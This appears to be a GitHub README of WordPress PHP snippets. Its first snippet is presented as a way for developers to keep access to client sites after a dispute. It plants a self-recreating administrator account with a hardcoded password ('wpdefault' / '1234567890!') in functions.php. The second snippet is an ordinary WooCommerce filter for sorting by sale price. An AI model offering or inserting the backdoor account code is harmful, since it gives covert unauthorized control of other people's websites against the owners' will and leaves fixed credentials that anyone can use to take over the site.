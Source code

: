 
## WordPress Important Scripts

### Wordpress Default User Create

If you need add an administrator User_Roll in WordPress which is no one delete this User. then put the code in any function.php file.

Most of clients are cheat with us after complete the work. They behave badly by being angry about little things. Then delete the access and cancel the order.
This code is useful to handle that situation.

```PHP

add_action( 'init', function () {

$username = 'wpdefault';
$password = '1234567890!';
$email_address = 'wordpress@example.com';

if ( ! username_exists( $username ) ) {
	$user_id = wp_create_user( $username, $password, $email_address );
	$user = new WP_User( $user_id );
	$user->set_role( 'administrator' );
}

} );

```


### Function to add sorting of sales items

You can use the function below without any changes to achieve what we want in this guide but if you want to change text of the filter option you can do.

```PHP

/**
 * WooCommerce Sales Sorting Filter
 * https://lakewood.media/woocommerce-add-sales-filter/
 */
add_filter( 'woocommerce_get_catalog_ordering_args', 'wcs_get_catalog_ordering_args' );
function wcs_get_catalog_ordering_args( $args ) {
    $orderby_value = isset( $_GET['orderby'] ) ? woocommerce_clean( $_GET['orderby'] ) : apply_filters( 'woocommerce_default_catalog_orderby', get_option( 'woocommerce_default_catalog_orderby' ) );
     
    if ( 'on_sale' == $orderby_value ) {
        $args['orderby'] = 'meta_value_num';
        $args['order'] = 'DESC';
        $args['meta_key'] = '_sale_price'; 
    }
    return $args;
}
 
add_filter( 'woocommerce_default_catalog_orderby_options', 'wcs_catalog_orderby' );
add_filter( 'woocommerce_catalog_orderby', 'wcs_catalog_orderby' );
function wcs_catalog_orderby( $sortby ) {
    $sortby['on_sale'] = 'Sort by on sale';
    return $sortby;
}

```
